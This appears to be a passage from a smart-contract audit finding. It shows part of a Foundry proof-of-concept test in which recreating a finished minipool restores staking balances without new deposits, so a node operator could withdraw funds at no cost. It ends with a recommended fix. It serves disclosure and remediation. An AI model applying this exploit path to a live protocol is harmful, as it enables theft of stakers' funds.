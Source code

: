 ```
                // checking balance of AVAXStaked in pool
                int256 stakerIndex = staking.getIndexOf(nodeOp);
                assertGt(stakerIndex, -1);
                assertEq(store.getUint(keccak256(abi.encodePacked("minipool.item", minipoolIndx, ".status"))), uint256(MinipoolStatus.Finished));
                assertEq(store.getUint(keccak256(abi.encodePacked("staker.item", stakerIndex, ".avaxStaked"))), 0);
                assertEq(store.getUint(keccak256(abi.encodePacked("staker.item", stakerIndex, ".avaxAssigned"))), 0);

                // note that the reward amount at this stage is 28.75 ether
                assertEq(store.getUint(keccak256(abi.encodePacked("minipool.item", minipoolIndx, ".avaxNodeOpRewardAmt"))), 28.75 ether); // 50/2 + 0.15*25 = 28.75 ether

                vm.stopPrank();

                //STEP 8 - multisig accidentally (or maliciously) brings a dead minipool back alive
                //by passing it into recreate minipool function
                vm.startPrank(address(rialto));

                minipoolMgr.recreateMinipool(mp1.nodeID);
                MinipoolManager.Minipool memory recreatedPool = minipoolMgr.getMinipoolByNodeID(mp1.nodeID);

                /// avaxNodeOpAmount and avaxLiquidStake Amount is 1000 ether
                // status of finished pool is set back to PreLaunch

                // EXPLOIT: notice also that staking entries for staker have reappeared
                // WITHOUT ADDING ANY FUNDS
                assertEq(recreatedPool.status, uint256(MinipoolStatus.Prelaunch));
                assertEq(recreatedPool.avaxNodeOpAmt, 1028.75 ether);
                assertEq(store.getUint(keccak256(abi.encodePacked("staker.item", stakerIndex, ".avaxStaked"))), 28.75 ether);

                // Node operator can wait till cancellation moratorium
                // And withdraw these funds from pool - at zero cost

                vm.stopPrank();
        }
```

### Recommendation Steps

`recreatePool` assumes that the pool is in `Withdrawable` state but this implicit assumption can be exploited as shown above.

When node operator calls `withdrawMinipoolFunds` to withdraw all deposited AVAX, all the pool storage parameters specific to rewards should be reset to zero. Fortunately, we have a function just to do this - recommendation is to just call `resetMinipoolData(minipoolIndex)` inside of `withdrawMinipoolFunds` once pool is emptied by node operator. At this point, this pool is dead & there is no point in retaining data pertaining to past pool.
